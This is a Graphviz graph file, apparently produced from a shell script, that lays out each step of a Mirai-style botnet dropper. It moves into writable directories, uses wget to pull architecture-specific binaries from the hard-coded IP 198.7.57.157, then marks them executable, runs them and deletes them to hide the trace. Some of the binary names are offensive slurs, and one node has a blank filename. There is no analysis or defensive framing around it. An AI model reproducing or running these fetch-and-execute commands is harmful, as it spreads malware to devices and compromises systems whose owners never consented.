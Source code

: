 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://198.7.57.157/dankmips "];
10 -> 12 [label=";,"];
12 [label="chmod +x dankmips "];
12 -> 14 [label=";,"];
14 [label="./dankmips "];
14 -> 16 [label=";,"];
16 [label="rm -rf dankmips "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://198.7.57.157/dankmipsel "];
28 -> 30 [label=";,"];
30 [label="chmod +x dankmipsel "];
30 -> 32 [label=";,"];
32 [label="./dankmipsel "];
32 -> 34 [label=";,"];
34 [label="rm -rf dankmipsel "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://198.7.57.157/danksh4 "];
46 -> 48 [label=";,"];
48 [label="chmod +x danksh4 "];
48 -> 50 [label=";,"];
50 [label="./danksh4 "];
50 -> 52 [label=";,"];
52 [label="rm -rf danksh4 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://198.7.57.157/fukwindowz "];
64 -> 66 [label=";,"];
66 [label="chmod +x fukwindowz "];
66 -> 68 [label=";,"];
68 [label="./fukwindowz "];
68 -> 70 [label=";,"];
70 [label="rm -rf fukwindowz "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://198.7.57.157/dankarms "];
82 -> 84 [label=";,"];
84 [label="chmod +x dankarms "];
84 -> 86 [label=";,"];
86 [label="./dankarms "];
86 -> 88 [label=";,"];
88 [label="rm -rf dankarms "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://198.7.57.157/wgetisgay "];
100 -> 102 [label=";,"];
102 [label="chmod +x wgetisgay "];
102 -> 104 [label=";,"];
104 [label="./wgetisgay "];
104 -> 106 [label=";,"];
106 [label="rm -rf wgetisgay "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://198.7.57.157/ppcbitch "];
118 -> 120 [label=";,"];
120 [label="chmod +x ppcbitch "];
120 -> 122 [label=";,"];
122 [label="./ppcbitch "];
122 -> 124 [label=";,"];
124 [label="rm -rf ppcbitch "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://198.7.57.157/fukthepigs "];
136 -> 138 [label=";,"];
138 [label="chmod +x fukthepigs "];
138 -> 140 [label=";,"];
140 [label="./fukthepigs "];
140 -> 142 [label=";,"];
142 [label="rm -rf fukthepigs "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://198.7.57.157/pigsfucktwopigs "];
154 -> 156 [label=";,"];
156 [label="chmod +x pigsfucktwopigs "];
156 -> 158 [label=";,"];
158 [label="./pigsfucktwopigs "];
158 -> 160 [label=";,"];
160 [label="rm -rf pigsfucktwopigs "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://198.7.57.157/south "];
172 -> 174 [label=";,"];
174 [label="chmod +x south "];
174 -> 176 [label=";,"];
176 [label="./south "];
176 -> 178 [label=";,"];
178 [label="rm -rf south "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://198.7.57.157/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://198.7.57.157/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 212 [label=";,"];
212 [label="./apache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf apache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://198.7.57.157/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 231 [label=";,"];
}
